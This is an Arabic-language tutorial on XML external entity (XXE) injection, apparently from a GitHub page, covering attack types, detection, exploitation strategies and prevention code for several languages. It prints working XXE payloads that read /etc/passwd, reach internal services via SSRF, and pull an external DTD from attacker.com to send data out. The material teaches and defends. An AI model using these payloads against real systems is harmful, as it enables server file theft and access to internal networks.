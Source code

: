 # XML external entity (XXE) injection

- <details>
     <summary>XXE</summary>

     
     # XML external entity (XXE) injection
     
     في هذا الملف نشرح ما هو **XML external entity injection (XXE)**، نعرض أمثلة شائعة، نشرح كيفية العثور على الثغرة واستغلالها بأنواعها المختلفة، ونلخّص طرق الوقاية.
     
     > **تحذير**: الأمثلة والتعليمات هنا مخصّصة للأغراض التعليمية واختبار الأمن على بيئات قانونية (مختبرات PortSwigger / HTB / VM خاص بك). لا تستخدمها على أنظمة غير ملكك.
     
     ---
     
     ## 1) ما هو XXE باختصار
     
     **XML External Entity (XXE)** هو ثغرة تحدث عندما يعالج السيرفر بيانات XML ويقبل تعريفات DTD/Entities خارجية بدون تحقّق. المهاجم يقدر يعرف `ENTITY` مرتبط بملف أو URL، وبهذا يستطيع:
     
     * الاطّلاع على ملفات على ملفّ نظام السيرفر (file disclosure).
     * تنفيذ **Server-Side Request Forgery (SSRF)** للوصول إلى أنظمة داخلية يقدر التطبيق الوصول لها.
     * استخراج بيانات *out-of-band* (مثل DNS/HTTP callbacks) إلى نظام المهاجم.
     * التسبّب بأخطاء تكشف بيانات حسّاسة (error-based).
     
     ## 2) لماذا تحدث الثغرة؟
     
     لأن مكتبات ومعالجات XML الافتراضية تدعم خصائص مثل DTDs وExternal Entities، وفي كثير من التطبيقات لا يقوم المطوّرون بتعطيل هذه الميزات أو تأمينها.
     
     ## 3) أنواع هجمات XXE
     
     * **استرجاع الملفات مباشرة (Direct file retrieval)**: تعريف `ENTITY` يقرأ ملف محلي ويُدرَج في الاستجابة.
     * **SSRF عبر XXE**: تعريف `ENTITY` يوجّه إلى URL داخلي (مثلاً `http://127.0.0.1:8080/admin`).
     * **Blind OOB (DNS/HTTP callback)**: لا تعرض البيانات في الاستجابة لكن السيرفر يتصل بعنوان يتحكم فيه المهاجم لتسليم المحتوى.
     * **Error-based**: التلاعب بالـXML لإحداث خطأ يحتوي على بيانات حسّاسة.
     
     ## 4) أمثلة Payload )
     
     **تنبيه قوي:** استخدم الأمثلة في بيئات قانونية فقط.
     
     **File disclosure (بسيط):**
     
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>&xxe;</root>
     ```
     
     **SSRF (طلب HTTP داخلي):**
     
     ```xml
     <!DOCTYPE root [
       <!ENTITY xxe SYSTEM "http://127.0.0.1:8000/secret">
     ]>
     <root>&xxe;</root>
     ```
     
     **Blind OOB (DNS/HTTP callback):**
     
     ```xml
     <!DOCTYPE root [
       <!ENTITY % remote SYSTEM "http://attacker.com/payload.dtd">
       %remote;
     ]>
     <root>&send;</root>
     ```
     
     `payload.dtd` على جهة المهاجم يمكن أن يعرّف ENTITY يرسل محتوى ملف إلى `attacker.com` أو يسبب DNS lookup فريد.
     
     ## 5) كيف تلاقي XXE )
     
     * ابحث عن نقاط إدخال تستقبل XML (APIs، SOAP، SAML assertions، RSS/Atom، file uploads).
     * جرّب إدخال نص يحتوي `<!DOCTYPE` — إذا ظهر خطأ متعلق بالـDTD فقد تكون نقطة دخول.
     * استخدم أدوات مثل Burp Repeater أو curl لإرسال الـpayloads.
     * لاختبارات OOB استخدم Burp Collaborator أو DNSLog أو خدمة DNS قابلة للتحكّم. أي callback يؤكّد وجود ثغرة blind XXE.
     * راقب السجلات لسلوك outgoing HTTP/DNS أثناء الاختبار.
     * استخدم أدوات أتمتة كـBurp Scanner أو Nuclei مع قوالب XXE، لكن اليدوي غالباً أقوى للحالات المعقدة.
     
     ## 6) استراتيجيات الاستغلال حسب النوع
     
     * **إذا كانت الاستجابة تعرض المحتوى مباشرة** → استخدم payloads لاسترجاع ملفات.
     * **إذا لم تظهر بيانات لكن تملك OOB** → استخدم DTD خارجي يطلب مورد على سيرفر المهاجم.
     * **إذا كان parser يمنع DTD لكن يسمح بالـentities** → جرّب تقنيات blind عبر الأخطاء أو التوقّعات الزمنية.
     * **إذا كان السيرفر يمنع تحميل موارد خارجية** → ابحث عن رسائل خطأ تفصّل أجزاء من الملف.
     
     ## 7) كيف تمنع XXE — خطوات عملية
     
     1. **تعطيل معالجة DTD والـExternal Entities** في parser (الأهم). أمثلة:
     
        * **Java (javax.xml):**
     
        ```java
        factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        ```
     
        * **.NET:**
     
        ```csharp
        XmlReaderSettings settings = new XmlReaderSettings();
        settings.DtdProcessing = DtdProcessing.Prohibit;
        ```
     
        * **Python:** استخدم مكتبة `defusedxml` بدلاً من معالجات XML الافتراضية غير الآمنة.
     
        * **PHP:** `libxml_disable_entity_loader(true);` — راجع التوثيق لأن بعض الدوال تغيّرت في الإصدارات الحديثة.
     
     2. **تحديث المكتبات**: استعمل نسخ parser آمنة ومحدّثة.
     
     3. **التحويل إلى JSON** إذا لم تكن تحتاج ميزات XML المعقّدة.
     
     4. **تقييد الشبكة والصلاحيات**: امنع التطبيق من إجراء طلبات خارجية أو قيّدها جدارياً، وشغّل الخدمة بصلاحيات محدودة.
     
     5. **التحقّق من المدخلات**: لا تعالج XML مباشرة من مصادر غير موثوقة دون تحقق.
     
     6. **مراقبة outgoing DNS/HTTP** وفعّل Logging/IDS.
     
     7. **اختبار أمني دوري**: ضمن فحص XXE ضمن الاختبارات الآلية واليدوية.
     
     ## 8) نصايح في الكود — أمثلة سريعة
     
     * **Java**: تعطيل DTD كما سلف.
     * **Python**: استخدم:
     
     ```python
     from defusedxml import ElementTree as ET
     root = ET.fromstring(user_xml)
     ```
     
     * **.NET**: منع DTD عبر `XmlReaderSettings`.
     
     ## 9) إشارات إنك معرض للثغرة
     
     * التطبيق يتعامل مع SOAP, SAML, RSS أو يقبل ملفات XML من المستخدمين.
     * وجود مكتبات معالجة XML قديمة.
     * سجلات تظهر محاولات تحميل موارد خارجية أثناء معالجة XML.
     
     
     
          
</details>


















































